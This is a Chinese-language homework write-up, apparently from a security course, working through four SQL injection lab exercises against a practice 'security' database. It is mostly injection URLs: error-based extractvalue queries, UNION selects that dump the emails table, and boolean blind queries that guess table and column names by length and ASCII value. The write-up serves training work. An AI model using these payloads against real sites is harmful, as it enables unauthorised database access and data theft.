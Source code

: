 # 作业

### 练习1

- 前面两次练习写的比较详细了,所以这里只展示过程

- 目标url:http://192.168.100.40:64879/string.php?id=1

![image-20240822171501356](./assets/image-20240822171501356.png)

- 获取当前网页的``数据库名``

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select database()),0x3a)) --+
```

![image-20240822172548437](./assets/image-20240822172548437.png)

- 获取当前网页的数据库的``表名``

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)) --+
```

![image-20240822173059756](./assets/image-20240822173059756.png)

- 获取当前网页的``emails表``中的所有字段

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_name='emails' and table_schema=database()),0x3a)) --+
```

![image-20240822180248392](./assets/image-20240822180248392.png)

- 获取``emails表中的所有数据``

```
http://192.168.100.40:64879/string.php?id=-1'union select 1,(select group_concat(id,0x3a,email_id) from security.emails),3 --+
```

![image-20240822180428083](./assets/image-20240822180428083.png)

------

### 作业2

- 目标url:http://1.14.28.17:32271/number.php?id=1

- 查看数据库的列数``order by`` 

```sql
http://1.14.28.17:32271/number.php?id=1 order by 3 --+
http://1.14.28.17:32271/number.php?id=1 order by 4 --+
```

发现``3``是正常的,而``4``报错

- 开始尝试

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,3--+
```

![image-20240822184809338](./assets/image-20240822184809338.png)

- 查看当前``数据库名``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,database(),3--+
```

![image-20240822184940525](./assets/image-20240822184940525.png)

- 查看``表名``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```

![image-20240822191006108](./assets/image-20240822191006108.png)

- 查看``emails表``中的字段名

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails' and table_schema='security'--+
```

![image-20240822191229453](./assets/image-20240822191229453.png)

- 查看``所有数据``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(id,0x3a,email_id) from security.emails
```

![image-20240822191434561](./assets/image-20240822191434561.png)

------

### 作业3

- 目标url:http://1.14.28.17:45257/get.php?id=1
- 这关判断正确了就会显示``you are in....``截图我就不展示了
- 判断当前``数据库表的个数`` -->4

```sql
http://1.14.28.17:45257/get.php?id=1'and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

- 获取第一个``表名长度``-->6

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6 --+
```

- 获取第二个``表名长度``-->8

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)=8 --+
```

- 获取第三个``表名长度``-->7

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 2,1)=7 --+
```

- 获取第四个``表名长度``-->5

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 3,1)=5 --+
```

- 获取第四个``表名``--> 117 115 101 114 115 即:``users``

![image-20240820205508239](./assets/image-20240820205508239-1724326766500-1.png)

- 获取``字段数``-->3

```sql
//代表有users表中有三个字段
http://192.168.77.131/master/Less-8/?id=-1'or (select count(*) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1))=3 --+
```

- 获取``第一个字段长度``-->2

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 0,1)=2 --+
```

- 获取``第二个字段长度``-->8

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1)=8 --+
```

- 获取``第三个字段长度``-->8

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 2,1)=8 --+
```

- 开始爆破每一个``字段名``-->id

```sql
//爆破第一个字段的第一个字符-->105
http://192.168.77.131/master/Less-8/?id=1' AND (select(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() LIMIT 3,1) limit 0,1),1,1))=105)) --+
```

```sql
//爆破第二个字段的第一个字符-->100
http://192.168.77.131/master/Less-8/?id=1' AND (select(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() LIMIT 3,1) limit 0,1),2,1))=105)) --+
```

- 获取数据也是一样的,相对比较繁琐就不展示了

------

### 作业4

- 目标url:http://1.14.28.17:26053/post.php

- 刚开始拿到网页确实觉得有点难,没有任何回显,无从下手,无奈选择使用yakit进行抓包

![image-20240822231802250](assets/image-20240822231802250.png)

![image-20240822231941587](assets/image-20240822231941587.png)

- 注入成功后会返回一个``./images/flag.jpg``图片,失败则是``./images/slap``,通过这一步就能判断出``数据库名字长度``-->8
- 有了这个思路那么就是说,只要我语句判断是对的那么都会返回``./images/flag.jpg``,由此剩余步骤跟前面布尔盲注大同小异
- 这里由于时间关系,我只展示如何获取``数据库名``

![image-20240822233921451](assets/image-20240822233921451.png)

- 构造pyload,爆破获取得到-->115 101 99 117 114 105 116 121 即为:``security``
- 到此本次注入就结束了,剩下的不再演示,因为都很类似,只是相对繁琐!

